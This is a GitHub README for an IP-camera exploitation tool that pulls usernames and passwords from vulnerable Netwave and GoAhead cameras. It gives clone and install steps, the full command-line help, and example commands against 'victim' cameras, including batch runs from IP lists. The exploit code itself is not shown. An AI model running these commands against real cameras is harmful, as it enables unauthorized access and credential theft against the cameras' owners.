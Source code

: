 # Expcamera
Exploit Netwave and GoAhead IP Camera  
Expcamera is a tool for exploiting vulnerable Netwave and GoAhead IP camera to get the username and password.  
**Attention:this tool is just for educational!  **
**Please comply with local laws and regulations!  **

# Installation
	git clone https://github.com/vanpersiexp/expcamera.git  
	pip3 install -r related.txt  
# Usage
	python3 exploit_camera.py -h  

	usage: exploit_camera.py [-h] [-b {1,2}] [-o OUTPUTFILE] [-T TIMEOUT]  
        	                 [-t TASKS] [-q | -v] [-i IP | -I INPUTFILE]  

	Exploit IP Camera. Please use it just in educational purpose!  

	optional arguments:  
	  -h, --help     show this help message and exit  
	  -b {1,2}       Choose the brand of IP Camera. 1 represents Netwave,2  
	                 represents GoAhead.  
	  -o OUTPUTFILE  Output into path you input.The default path in dir /tmp  
	  -T TIMEOUT     The default timout for netwave is 300s.  
	  -t TASKS       Run TASKS number of connects in parallel,default is 10  
	  -q             Quiet mode.  
	  -v             Show more informations.  
	  -i IP          The camera's ip and port.Example: 192.168.1.100:80  
	  -I INPUTFILE   The camera's ip:port address file. The file's format like  
	                 this 192.168.1.100:80 in a line.  
# Example
	1.Victim IP Camera's brand is Netwave.The ip is 192.168.1.100 and port is 80
	python3 exploit_camera.py -b 1 -i 192.168.1.100:80 -v
	2.Victim IP Camera's brand is GoAhead.The iplist.txt is given.
	The iplist.txt show as below:
	192.168.1.10:80
	192.168.1.100:81
	192.168.1.200:8080
	python3 exploit_camera.py -b 2 -I iplist.txt -v
	
# Contacts
pu.xiaorvp@gmail.com  

# References
http://www.cnvd.org.cn/flaw/show/CNVD-2017-01037  
http://cn.0day.today/exploit/26889  
https://pierrekim.github.io/blog/2017-03-08-camera-goahead-0day.html  
